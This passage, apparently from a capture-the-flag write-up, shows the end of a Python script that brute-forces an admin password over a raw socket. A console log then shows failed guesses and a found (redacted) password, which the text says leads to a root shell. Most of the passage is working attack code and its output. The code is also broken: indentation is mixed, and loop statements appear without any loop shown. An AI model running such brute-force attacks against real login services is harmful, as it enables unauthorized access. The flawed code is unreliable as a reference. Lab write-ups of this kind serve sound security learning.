 ```python
        try:
            # Connect to the server
            client_socket.connect((server_address, server_port))

            # Step 1: Send 'admin' to initiate admin login
            data = 'admin'
            client_socket.sendall(data.encode('utf-8'))

            # Step 2: Wait for "Password:" prompt from server
            response = client_socket.recv(1024).decode('utf-8').strip()
            if "Password" not in response:
                print(f"Unexpected response: {response}")
                client_socket.close()
                continue

            # Step 3: Send the password attempt
            client_socket.sendall(password.encode('utf-8'))

            # Step 4: Receive response from the server
            response = client_socket.recv(1024).decode('utf-8').strip()
            if "Welcome Admin" in response:
                print(f"\n[+] Password found: {password}")
                break
            elif "Password" in response:
                # If prompted again for the password, it means the attempt failed
                print(f"[-] Password incorrect: {password}")
            	pass
            else:
                # Unexpected response
                print(f"Unexpected response: {response}")

        except socket.timeout:
            print(f"Connection timed out while trying password: {password}")

        except Exception as e:
            print(f"Error: {e}")

        finally:
            # Close the socket for each iteration
            client_socket.close()
            time.sleep(0.5)  # Small delay to prevent server-side rate limiting

if __name__ == "__main__":
	print("[i] Please wait...")
    brute_force_password()
```

After a couple of tries, the password is found. We can now use it to get a root shell.
```console
m3ga@kali:~$ python3 rat_poison.py
[i] Starting bruteforce...
[-] Password incorrect: 123456
[-] Password incorrect: 12345
...

[+] Password found: [REDACTED]
```
